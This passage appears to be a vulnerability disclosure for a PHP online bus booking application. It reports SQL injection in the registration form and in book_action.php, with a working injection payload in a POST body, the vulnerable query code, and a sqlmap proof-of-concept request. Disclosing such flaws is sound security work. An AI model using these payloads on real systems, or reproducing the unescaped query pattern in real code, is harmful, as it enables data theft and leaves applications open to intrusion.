 ```
Connection: close

name=zihe&email=q%40qq.com&Gender=M&dob=2002-02-02', database()) -- -&password=123456&phone=1&register_submit=

```
![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/9426b51b-adaf-40bb-ba15-873aeecfcf5d)

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/1579ba61-24ed-4e57-8445-f004e97042fc)

phone changed to database name



# 2. book_action.php sql injection

in book.php can booking train ticket

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/bf8281b3-141a-4423-85cd-9cef27a8b81b)

post data to book_action.php
```
$source = $_POST['source'];
$dest = $_POST['dest'];
$class = $_POST['class'];
$type = $_POST['type'];
$no = $_POST['number'];
...
$sql_price="SELECT * FROM `price` WHERE `source` LIKE '$source' AND `dest` LIKE '$dest' AND `type` LIKE '$type' AND `class` = '$class'";

```

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/e694a9b0-57e6-44a2-b2bd-6b1e96e875b3)

Parameterized queries or precompiled statements should be used to ensure that user input is processed and escaped correctly. This can prevent attackers from tampering with query logic by injecting malicious code.


POC：

`sqlmap -r r.txt`

```
POST /onlinebus/book_action.php HTTP/1.1
Host: 192.168.253.1
Content-Length: 79
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://onlinebus
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.253.1/onlinebus/book.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jmetab2u149tgvq0m6nh6mbeh9
Connection: close

source=Khandeshwar&dest=Kharghar&class=First&type=Single&number=1&login_submit=

```
